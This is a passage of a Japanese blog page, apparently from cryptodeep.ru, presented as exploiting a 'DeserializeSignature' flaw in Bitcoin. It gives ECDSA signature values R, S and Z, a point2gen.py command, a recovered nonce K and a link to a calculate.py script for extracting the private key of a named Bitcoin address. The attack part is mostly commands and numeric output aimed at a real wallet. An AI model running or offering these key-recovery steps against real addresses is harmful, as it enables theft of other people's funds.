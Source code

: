 
<pre class="wp-block-code"><code><strong>!python3 point2gen.py </strong>0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-37-1024x288.png" alt="ビットコインネットワークにおける DeserializeSignature の脆弱性: 暗号解析、その結果、無効な ECDSA 署名が作成される可能性" class="wp-image-5249"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><code><strong>(0xb44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307 , 0x3adecc9efffbb36322c8e19071e323815403be263c1e595dc26eb762982b54b0)</strong></code></p>



<p><code>EC (secp256k1)&nbsp;</code>署名値を使用して点の座標を確認する<code>R</code></p>



<pre class="wp-block-code"><code><strong>R = 0xb44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307
S = 0x74e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f
Z = 0xa79974cb42f82890fcebcb9865cd512a34479d91211e2ce383def10a7388cf63</strong></code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code><strong>R          =    0xb44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307
point2gen  =   (0xb44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307 , 0x3adecc9efffbb36322c8e19071e323815403be263c1e595dc26eb762982b54b0)
</strong></code></pre>



<p><strong>すべて真実です!</strong></p>



<p><code><strong>K = 0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c</strong></code></p>



<p>秘密鍵がわかったので、ビットコイン ウォレットの秘密鍵を取得できます。<code><strong><a href="https://btc1.trezor.io/address/1LdNN9GXmoKZs5vrQFL1d4NL9GgZ1PfCZk" target="_blank" rel="noreferrer noopener">1LdNN9GXmoKZs5vrQFL1d4NL9GgZ1PfCZk</a></strong></code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading"><em>Python</em>スクリプトを使用してみましょう:&nbsp;<code><a href="https://github.com/demining/CryptoDeepTools/blob/main/32DeserializeSignatureVulnerability/calculate.py" target="_blank" rel="noreferrer noopener">calculate.py</a></code>&gt; &gt; &gt; 秘密キーを取得します。</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>
